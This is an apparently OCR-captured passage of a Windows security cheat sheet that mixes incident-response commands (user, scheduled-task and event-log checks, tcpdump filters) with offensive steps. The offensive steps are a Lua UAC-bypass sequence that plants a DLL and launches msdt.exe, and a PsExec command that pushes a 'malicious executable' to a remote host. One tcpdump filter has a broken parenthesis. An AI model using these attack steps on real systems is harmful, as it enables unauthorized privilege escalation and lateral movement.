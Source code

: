 net user
net localgroup <group>
```

## Examining Unusual Scheduled Tasks

```
schtasks
```

## Examining Unusual Log Entries

```
wevutil qe security /f:text
Get-EventLog -LogName Security | Format-List -Property *
```

## Lua UAC Bypass

```
-- auto elevate UAC bypass only on Windows 10.
is.popen("c:\windows\system32\cmd.exe /c 'mkdir %appdata%\..\Local\Microsoft\WindowsApps'")
is.popen("c:\windows\system32\cmd.exe /c 'copy Tsutsuji_x64.dll %appdata%\..\Local\Microsoft\WindowsApps\BluetoothDiagnosticUtil.dll'")
is.popen("c:\windows\system32\cmd.exe /c 'c:\windows\syswow64\msdt.exe -path C:\WINDOWS\diagnostics\index\BluetoothDiagnostic.xml -skip yes'")
```

## TCPDump

```
tcpdump -i <interface> # Capture, can use "any" 
tcpdump -i <interface> -w <file> # Write to a file after capture
tcpdump -r <file> -n # Read from a file and don't resolve hosts and ports
tcpdump -r <file> -n -A # Read from a file and don't resolve hosts and ports, show as ASCII

# Berkeley Packet Filtering

tcpdump -r <file> 'host 8.8.8.8'
tcpdump -r <file> 'src host 8.8.8.8'
tcpdump -r <file> 'not src host 8.8.8.8'
tcpdump -r <file> 'icmp and (src host 8.8.8.8'
```
## PSExec'ing

Running PsExec by uploading malicious executable:

```
# This will continue the PsExec session through named pipe, and will only terminate once the process is terminated. Additionally this -c parameter will manually cleanup the executable.
PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password -c update.exe
